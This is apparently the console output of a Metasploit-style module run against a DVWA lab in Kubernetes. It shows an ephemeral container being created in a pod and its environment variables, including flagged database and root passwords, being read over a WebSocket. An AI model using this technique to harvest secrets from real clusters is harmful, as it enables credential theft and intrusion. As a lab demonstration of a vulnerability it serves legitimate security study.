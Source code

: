 ```
[*] Waiting for ephemeral container to be ready...
[*] Ephemeral container status: {:waiting=>{:reason=>"ContainerCreating"}}
[*] Reason: ContainerCreating
[+] Ephemeral container is running.
[*] Attempting to access environment variables from the ephemeral container...
[*] WebSocket connection opened

KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_SERVICE_PORT=443
DVWA_MYSQL_SERVICE_PORT_3306_TCP_ADDR=10.99.148.252
HOSTNAME=cve-pod-4
SHLVL=1
DVWA_MYSQL_SERVICE_PORT_3306_TCP_PORT=3306
HOME=/root
DVWA_MYSQL_SERVICE_SERVICE_HOST=10.99.148.252
DVWA_MYSQL_SERVICE_PORT_3306_TCP_PROTO=tcp
** SECRET ** DVWA_PASSWORD=p@ssw0rd ** SECRET **
DVWA_MYSQL_SERVICE_SERVICE_PORT=3306
DVWA_MYSQL_SERVICE_PORT=tcp://10.99.148.252:3306
DVWA_MYSQL_SERVICE_PORT_3306_TCP=tcp://10.99.148.252:3306
** SECRET ** ROOT_PASSWORD=dvwa ** SECRET ** 
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
** SECRET ** DVWA_DATABASE=dvwa ** SECRET **
** SECRET ** DVWA_USERNAME=dvwa ** SECRET **
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_SERVICE_HOST=10.96.0.1
PWD=/
[*] WebSocket connection closed: 1000,     
[*] Auxiliary module execution completed
```
